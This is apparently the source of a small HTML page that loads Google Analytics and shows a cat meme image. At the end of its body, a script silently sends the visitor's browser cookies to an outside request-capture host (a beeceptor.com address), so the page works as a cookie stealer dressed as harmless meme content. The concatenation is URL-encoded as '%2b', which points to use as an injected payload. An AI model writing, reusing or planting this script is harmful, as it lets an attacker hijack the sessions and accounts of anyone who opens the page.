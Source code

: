 <html>
    <head>
        <meta charset="utf-8"/>
        <!-- Google Analytics -->
        <script async src="https://www.googletagmanager.com/gtag/js?id=UA-162850137-1"></script>
        <script>
          window.dataLayer = window.dataLayer || [];
          function gtag(){dataLayer.push(arguments);}
          gtag('js', new Date());
          gtag('config', 'UA-162850137-1');
        </script>
    </head>
    <body>
        <img src="https://www.rd.com/wp-content/uploads/2020/01/04-cat-memes-1024x701.jpg" alt="cat meme" />
        <script>
            var xhttp = new XMLHttpRequest(); 
            xhttp.open("GET", "https://web90074.free.beeceptor.com" %2b document.cookie, true); 
            xhttp.send();
        </script>
    </body>
</html>
